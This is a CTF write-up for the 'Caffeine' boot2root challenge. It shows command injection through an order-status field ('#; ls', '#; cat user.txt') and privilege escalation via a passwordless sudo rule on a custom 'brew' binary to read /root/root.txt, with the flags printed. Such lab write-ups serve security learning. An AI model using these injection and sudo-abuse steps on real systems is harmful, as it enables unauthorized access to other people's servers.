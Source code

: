 # Caffeine

> Boot2root

## User

```text
This new coffee shop recently opened and you've been waiting too long for your daily caffeine injection! Can you find a way to see a little more than just your order status?

The user flag is in a file called user.txt.
```

points: `50`

solves: `310`

author: `Quack`

---

![image](../images/2.png)

On checking, the text box at right side can be used for RCE

```shell
Order Status for #; ls
hint.txt
index.php
orders.log
user.txt
```

```shell
Order Status for #; cat user.txt
brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}
```

## Root

```text
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

The root flag is located in /root/root.txt.
```

points: `50`

solves: `203`

author: `Quack`

---

```shell
Order Status for #; cat /root/root.txt
No order found with ID #; cat /root/root.txt

Order Status for #; sudo cat /root/root.txt
No order found with ID #; sudo cat /root/root.txt
```

```shell
Order Status for #; cat hint.txt
Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?
The root flag is located at /root/root.txt
```

The hint indicates towards commands which can be *run with sudo without a password*

```shell
Order Status for #; sudo -l
Matching Defaults entries for www-data on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

`brew`..hmmm

```shell
Order Status for #; sudo brew /root/root.txt
   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!
```
